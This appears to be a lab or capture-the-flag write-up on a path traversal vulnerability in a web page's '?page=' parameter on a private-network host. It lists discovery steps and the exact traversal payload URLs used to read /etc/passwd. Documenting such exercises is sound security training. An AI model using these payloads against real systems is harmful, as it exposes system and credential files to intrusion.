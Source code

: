 # Path Traversal Vulnerability - Documentation

## How I Found It

### Step-by-Step Discovery Process

1. **Initial Reconnaissance**
   - Explored the website systematically, examining all pages and functionality
   - Noticed a page that accepts file paths or filenames as parameters
   - Common locations: image viewers, file download features, include parameters, or template loaders

2. **Identified the Vulnerable Parameter**
   - Found a URL parameter that appeared to reference files (`?page=`)
   - Example: `http://192.168.1.16/index.php?page=survey`

3. **Initial Testing**
   - Tested basic path traversal sequences: `../` (dot-dot-slash)
   - Observed the application's response to malformed inputs
   - Confirmed the parameter was processing file paths

4. **Successful Exploitation**
   - Modified the parameter to traverse directories
   - Successfully accessed files outside the intended directory
   - Retrieved sensitive information or the flag

---

## How I Exploited It

### Exact Commands and Payloads Used

**Original URL:**
```
http://192.168.1.16/index.php?page=survey
```

**Exploitation Attempts:**

1. **Basic Traversal:**
```
http://192.168.1.16/index.php?page=../../../etc/passwd
```

**Successful Payload:**
```
http://192.168.1.16/index.php?page=../../../../../../../etc/passwd
```

**Payload Breakdown:**
- Base URL: `http://192.168.1.16/index.php`
- Vulnerable Parameter: `?page=`
- Traversal Sequence: `../../../../../../../` (7 levels up)
- Target File: `etc/passwd`
